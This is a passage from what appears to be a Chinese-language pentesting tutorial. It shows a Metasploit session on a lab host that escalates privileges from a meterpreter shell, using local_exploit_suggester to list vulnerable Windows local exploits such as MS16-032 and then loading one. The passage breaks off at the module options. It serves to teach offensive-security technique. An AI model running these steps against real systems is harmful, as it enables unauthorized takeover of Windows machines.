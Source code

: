 ##### 2.2 suggester辅助脚本提权

会话派发到msf

```
meterpreter > getuid    //查看权限
Server username: HACK\testuser
meterpreter > background //当前激活的shell切换到后台
[*] Backgrounding session 1...
msf5 exploit(multi/handler) > search suggester   //查找辅助提权模块
​
Matching Modules
================
​
#  Name                                      Disclosure Date  Rank    Check  Description
​
-  ----                                      ---------------  ----    -----  -----------
​
0  post/multi/recon/local_exploit_suggester                   normal  No     Multi Recon Local Exploit Suggester
​
msf5 exploit(multi/handler) > use 0
msf5 post(multi/recon/local_exploit_suggester) > sessions //查看会话
​
Active sessions
===============
​
Id  Name  Type                     Information                      Connection
​
--  ----  ----                     -----------                      ----------
​
1         meterpreter x86/windows  HACK\testuser @ WIN-1EVLV0JUJD6  192.168.43.6:8866 -> 192.168.43.87:49394 (192.168.43.87)
​
msf5 post(multi/recon/local_exploit_suggester) > set session 1 //设置会话
session => 1
msf5 post(multi/recon/local_exploit_suggester) > exploit
​
[*] 192.168.43.87 - Collecting local exploits for x86/windows...
[*] 192.168.43.87 - 30 exploit checks are being tried...
[+] 192.168.43.87 - exploit/windows/local/bypassuac_eventvwr: The target appears to be vulnerable.
[+] 192.168.43.87 - exploit/windows/local/ms10_092_schelevator: The target appears to be vulnerable.
[+] 192.168.43.87 - exploit/windows/local/ms13_053_schlamperei: The target appears to be vulnerable.
[+] 192.168.43.87 - exploit/windows/local/ms13_081_track_popup_menu: The target appears to be vulnerable.
[+] 192.168.43.87 - exploit/windows/local/ms14_058_track_popup_menu: The target appears to be vulnerable.
[+] 192.168.43.87 - exploit/windows/local/ms15_051_client_copy_image: The target appears to be vulnerable.
[+] 192.168.43.87 - exploit/windows/local/ms16_032_secondary_logon_handle_privesc: The service is running, but could not be validated.
[+] 192.168.43.87 - exploit/windows/local/ppr_flatten_rec: The target appears to be vulnerable.
[*] Post module execution completed
//以上为查找出来的可利用的漏洞
​
msf5 post(multi/recon/local_exploit_suggester) > use exploit/windows/local/ms16_032_secondary_logon_handle_privesc   //选择上面的任意一个漏洞模块进入
msf5 exploit(windows/local/ms16_032_secondary_logon_handle_privesc) > show options  //查看需要设置的参数
​
Module options (exploit/windows/local/ms16_032_secondary_logon_handle_privesc):
​
Name     Current Setting  Required  Description
```